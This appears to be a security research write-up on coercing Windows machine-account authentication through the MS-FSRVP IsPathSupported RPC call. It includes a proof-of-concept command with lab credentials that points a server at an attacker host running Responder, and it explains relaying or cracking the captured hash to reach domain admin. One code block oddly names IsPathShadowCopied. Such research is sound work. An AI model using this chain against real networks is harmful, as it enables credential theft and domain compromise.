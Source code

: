 # MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathSupported(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* SupportedByThisProvider,
    [out] [string] LPWSTR* OwnerMachineName
);
```

 - **hBinding**:  An RPC binding handle (as defined in [C706]).

 - **ShareName**: The full path of the share in UNC format.

 - **SupportedByThisProvider**:  A Boolean, when set to TRUE, that indicates that shadow copies of this share are supported by the server.

 - **OwnerMachineName**:  The name of the server machine to which the client MUST connect to create shadow copies of the specified ShareName. 

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb